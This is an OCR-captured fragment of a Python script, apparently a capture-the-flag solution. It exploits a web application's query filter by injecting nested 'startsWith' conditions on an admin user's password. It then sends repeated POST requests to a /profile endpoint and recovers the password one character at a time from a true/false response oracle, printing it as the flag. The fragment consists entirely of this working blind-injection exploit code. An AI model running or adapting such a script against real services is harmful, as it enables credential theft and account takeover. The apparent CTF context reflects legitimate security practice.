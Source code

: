 ```python
            "startsWith": "admin"
        },
        "user": {
            "password": {
                "startsWith": password_prefix
            }
        }
    }
}

password_found = False
password = password_prefix

# Attempt to find the full password
try:
    while not password_found:
        for c in chars:
            new_password = password + c
            data["userId"]["user"]["password"]["startsWith"] = new_password

            response = requests.post(f"{URL}/profile", headers=headers, json=data)
            print(f"Trying: {new_password}")
            if response.status_code == 200 and "id" in response.text:
                password = new_password
                print(f"Password segment found: {password}")
                if len(password) == 50:  # Adjust length based on expected flag size
                    password_found = True
                break
except requests.RequestException as e:
    print(f"Error during password guessing: {e}")

print(f"Flag: {password}")
```